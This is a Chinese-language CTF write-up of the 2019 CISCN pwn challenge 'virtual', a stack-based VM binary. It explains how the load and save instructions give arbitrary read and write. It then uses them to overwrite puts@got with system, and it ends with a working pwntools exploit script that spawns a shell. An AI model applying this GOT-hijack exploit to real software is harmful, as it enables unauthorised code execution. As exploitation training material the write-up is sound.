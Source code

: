 ```yaml
---
layout: post
title:  "2019.4.25 2019 ciscn 国赛 pwn virtual"
tags: [ROP, pwn, vm, stack]
date: 2019-04-25
comments: false
---
```


# 2019CISCN国赛一道比较有意思的pwn-virtual

上周末打了国赛，主要做了pwn，一共六个，除了最后一道virtual其他的都还蛮常规的，也不算难。

记录一下virtual的解题过程。  

checksec:

![5cc10c4602242](https://i.loli.net/2019/04/25/5cc10c4602242.png)

![5cc10d2fe94f2](https://i.loli.net/2019/04/25/5cc10d2fe94f2.png)

程序模拟了三个栈，分别是数据栈，指令栈和运行栈。(三个栈实际都在堆上)

先输入指令，将它们放到指令栈中。再输入数据，将他们放到了数据栈中。

再进入op函数，依照指令栈中的指令，将数据栈中的数据放到运行栈中，对数据做操作。

如：指令栈中存了push push add pop

数据栈中存了1 2

op()函数会先将1压入运行栈，再将2压入运行栈，然后执行1+2，接着将结果pop到数据栈中。此时运行栈为空，数据栈只剩下3了。最后使用show()函数打印出数据栈中的数据，也就是3。

程序支持的所有指令有：push pop add sub mul div load save

漏洞在load指令与save指令。

load:

![5cc10eb06432e](https://i.loli.net/2019/04/25/5cc10eb06432e.png)

可以做到任意读，具体偏移是用ida动态调试出来的。

save:

![5cc10f4671fd9](https://i.loli.net/2019/04/25/5cc10f4671fd9.png)

可以做到任意写，偏移同样需要调试。

先说一下getshell思路，可以看到程序开头输入了name，最后puts(name)，got表可写。

因此可以输入name = /bin/sh ， 劫持puts@got为system地址。

便会执行system("/bin/sh")从而拿到shell。

可以首先通过save函数读取到puts@got中的值，即puts函数的真实地址。然后通过add函数，加上其与system函数的固定偏移值。这时的地址已经变成了system函数的真实地址。再通过save函数，将system函数的地址写到puts@got即可。  

动态调试：

指令：push load

数据：0

断在load函数里面刚刚执行完mov rax,[rax\]就可以。

![5cc111b5213ba](https://i.loli.net/2019/04/25/5cc111b5213ba.png)

查看rax:

![5cc111c9726da](https://i.loli.net/2019/04/25/5cc111c9726da.png)

可以看到输入偏移0，load出来的数据是0x211。

找一下0x211是哪里的数据。

查看位于堆上的数据栈。

![5cc1121635126](https://i.loli.net/2019/04/25/5cc1121635126.png)

位于0x1922058，多测试几次可以发现

输入-1 读取 0x1922050

输入-2 读取 0x1922048

可以得出结论：`0x1922060+(x-1)*8 = addr`，`x = (addr - 0x1922060)/8 + 1`其中x为输入的数据，0x1922060为运行栈的地址。

因此我们要读0x404020(puts@got)的话，首先要知道运行栈的地址。

而从上图可知，运行栈的地址只需要输入-3 load即可(实际上当数据栈中的数据增多以后，不是输入-3，而是-4,-5或更低，可能跟数据栈环境变化有关系，这一点不用太纠结，因为肯定有一个偏移能读到运行栈地址，手动修正即可)。

读出栈地址之后，使用上面的公式，令`addr=0x404020`，即可算出读取puts@got所需要的偏移。

接着load，即可读出puts的真实地址。使用add增加与system的偏移后得到system的真实地址。

这时就让system的真实地址存在运行栈的栈底，接着使用同样的方法再次读出`addr=0x404020`，save 需要的偏移。

这时运行栈中只有两个数据，栈顶为save函数覆写puts@got需要的偏移，栈底为system的真实地址。

执行save，即可向puts@got写入system。

exploit:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月24日 星期三 12时12分43秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
#elf = ELF('./pwn')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

#print libc.symbols['puts'] - libc.symbols['system']
# 0x404020 = 4210720
# offset = -172800
io.recv()
io.sendline('/bin/sh')

payload = 'push push load push sub push add div push add load push add push push load push sub push add div push add save'#div pop'# div pop'


io.recvuntil('ion:\n')
io.sendline(payload)
payload = '8 -4 0 4210720 1 -172800 8 -5 0 4210720 1'
io.recvuntil('data:\n')
io.sendline(payload)
#io.recv()
io.interactive()
```
